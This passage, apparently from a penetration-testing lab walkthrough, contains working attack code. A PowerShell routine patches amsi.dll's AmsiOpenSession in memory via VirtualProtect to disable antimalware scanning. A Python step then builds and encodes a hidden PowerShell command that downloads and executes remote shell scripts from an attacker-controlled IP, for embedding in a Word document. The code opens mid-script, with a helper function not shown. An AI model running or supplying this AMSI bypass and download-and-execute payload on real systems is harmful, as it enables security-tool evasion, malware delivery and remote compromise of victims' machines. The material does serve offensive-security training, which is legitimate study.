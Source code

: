 ```powershell
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

4\. Create the following Python script on Kali machine:

```python
filename = "test.doc"
payload = "powershell -exec bypass -nop -w hidden -c \"(New-Object System.Net.WebClient).DownloadString('http://192.168.45.243/shell2.txt') | iex; (New-Object System.Net.WebClient).DownloadString('http://192.168.45.243/shell3.txt') | iex;\""

def encode_string(input_string):
    encoded_output = ""
    for char in input_string:
        this_char = ord(char) + 17  # Convert char to ASCII and add 17
        encoded_output += f"{this_char:03}"  # Format as a 3-digit padded number
    return encoded_output

encoded_filename = encode_string(filename)
encoded_payload = encode_string(payload)

print("File Name:", encoded_filename)
print("Payload:", encoded_payload)
```
